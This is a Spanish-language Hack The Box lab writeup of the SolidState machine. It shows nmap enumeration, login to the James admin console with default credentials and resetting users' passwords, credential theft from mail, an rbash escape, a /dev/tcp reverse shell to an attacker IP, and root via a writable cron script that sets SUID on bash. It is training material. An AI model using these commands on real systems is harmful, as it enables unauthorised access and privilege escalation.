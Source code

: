 ```yaml
---
layout: post
title:  "OSCP Path ~ SolidState de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada SOLIDSTATE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Mail, smtpd, PopD, Remote Admin, Maquinas Retiradas, Writeup, Hacking
---
```


# SolidState ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.51      "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.218 [10.10.16.218]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Chequeamos que es esto de `JAMES Remote Admin 2.3.2` con searchsploit
```bash
# searchsploit James  2.3.2
--------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------------------------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)            | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                            | linux/remote/35513.py
--------------------------------------------------------------------------------------------------------------------------
```
Nos Descargamos el exploit en python, y vemos que las credenciales que usa por defecto son validas, probamos a conectarnos con `telnet` al servicio
`James Remote Admin 2.3.2`
```bash
Probamos a conectarnos via telnet por el servicio JAMES Remote Admin 2.3.2
# telnet 10.10.10.51 4555                                                                                                                       1 ⚙
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
user rootJAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id: root
Password: root
Welcome root. HELP for a list of commands
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
 Conseguimos entrar y listamos los usuarios que hay para el servicio, viendo los comando que podemos usar, vemos que existe el comando `setpassword` parasetear las contraseñas de los usuarios a la que nosotros queramos, lo hacemos.
 ```bash
 Unknown command set password
setpassword james james
Password for james reset
setpassword thomas thomas
Password for thomas reset
setpassword john john
Password for john reset
setpassword mindy mindy
Password for mindy reset
setpassword mailadmin mailadmin
Password for mailadmin reset
```
Como habiamos visto en el archivo `el scaneo de nmap` tambien teniamos el servicio de `pop3` o `correo_electronico`
Probamos a meternos con los distintos usuarios anteriores.
```bash
Para el user:
              user mindy
              pass mindy
---------------------------------------- 2 Mails ---------------------------
1
2
-----------------------------------------------------------------------------
retr 2 -→ encontramos credenciales en el mail.
-------------------- Credenciales obtenidas en el Mail 2 --------------------------
"Username: mindy          "
"pass: P@55W0rd1!2@       "
```

Con estas credenciales probamos a conectarnos al servicio `SSH` que se encontraba abierto.
```bash
# ssh mindy@10.10.10.51                                                                                                                  
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
0510e71c2e8c9xxxxxxxxxxxxxxx0dc2
```
Intentando enumerar un poco el sistema vemos que no estamos en una `bash`, sino en un `R-bash` que solo nos permite usar unos trees comandos.
Nos salimos de SSH y procedemos a realizar de nuevo la conexion de la siguiente forma para escaparnos del contexto de la `r-bash`

```bash
# ssh mindy@10.10.10.51 bash    
```
Una vez que nos hemos escapado del contexto de la `r-bash` procedemos a enviarnos un `r-shell` con el comando:
```bash
bash -i >& /dev/tcp/10.10.14.12/443 0>&1
```
Nos ponemos a la escucha con `Netcat` y nos montamos un server con python3 para pasar el archivo `pspy32s` a la ruta `/tmp/` 
```bash
recibimos la conexion, y procedemos a pasarnos el archivo pspy32s
para ver si hay tareas cron ejecutandose a nivel de sistema"
2021/07/16 12:33:01 CMD: UID=0    PID=1483   | python /opt/tmp.py " 
2021/07/16 12:33:01 CMD: UID=0    PID=1484   | sh -c rm -r /tmp/* 
```
Nos detecta una tarea que esta ejecutando el administrador en la ruta `/opt/tmp.py`
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls                                                                                                                     
james-2.3.2  tmp.py 

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l
total 8                                                                                                                                                                                                             
drwxr-xr-x 11 root root 4096 Apr 26 12:37 james-2.3.2                                                                                                                           
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py 
```

Como podemos escribir en la tarear modificamos la misma para que nos ejecute a nivel de sistema el comando que nosotros queramos
```bash
#!/usr/bin/env python

import os
import sys

try:
      os.system('chmod u+s /bin/bash')
except:
      sys.exit(1)
```

Procedemos a hacer un bash -p 
```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ nano tmp.py 
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ watch -n 1 'ls -l /bin/bash'
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ bash -p
bash-4.4# whoami 
root
4f4afb55463c3bc79axxxxxxxxx4953d
```

Maquina Rooteada =)
